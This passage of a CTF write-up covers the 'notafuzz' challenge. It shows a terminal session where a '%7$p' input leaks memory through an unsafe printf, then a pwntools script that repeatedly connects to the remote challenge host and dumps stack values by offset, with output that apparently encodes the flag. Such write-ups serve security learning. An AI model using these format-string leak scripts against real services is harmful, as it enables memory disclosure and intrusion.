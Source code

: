 <div>
<center><img src="/images/unbreakable_1_writeup/notafuzz-ida.png"></center>
</div>

I only tried the format string attack the first time I was asked for input! Knowing that the third answer will use `printf` with my input as the first argument, it was trivial to leak bytes from the program's memory:

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$ ./chall 
Good luck!
Do you have the control?
yaku
yaku
It does not look like. You have the alt!
Do you have the control?
yaku
yaku
It does not look like. You have the alt!
Do you have the control?
%7$p
0x100000000It does not look like. You have the alt!
Do you have the control?
^C
yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$
{% endhighlight %}

I used the folowing python script to exploit the format string vulnerability on the remote machine:

{% highlight python %}
from pwn import *

context.log_level = "CRITICAL"

def leakAddr(memOffset):
	r = remote('35.246.180.101', 31425)
	r.recvuntil('Do you have the control?')
	r.sendline('yaku')
	r.recvuntil('Do you have the control?')
	r.sendline('yaku')
	r.recvuntil('Do you have the control?\r\n')
	r.sendline(' | %' + str(memOffset) + '$p | ')
	resp = r.recvuntil('Do you have the control?')
	r.close()
	return resp.decode().split(' | ')[3]

for i in range(1000):
	print(str(i) + " " + leakAddr(i))
{% endhighlight %}

I didn't know exactly where the flag was located, so I waited for the script to print some hex values that might decode to valid ASCII characters.

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$ python solve.py
[...]
135 (nil)
136 0x585858587b667463
137 0x5858585836646166
138 0x5858585830343335
139 0x5858585866303831
140 0x5858585863346236
141 0x5858585839346636
142 0x5858585831646164
143 0x5858585861643833
144 0x5858585834646565
145 0x5858585866633734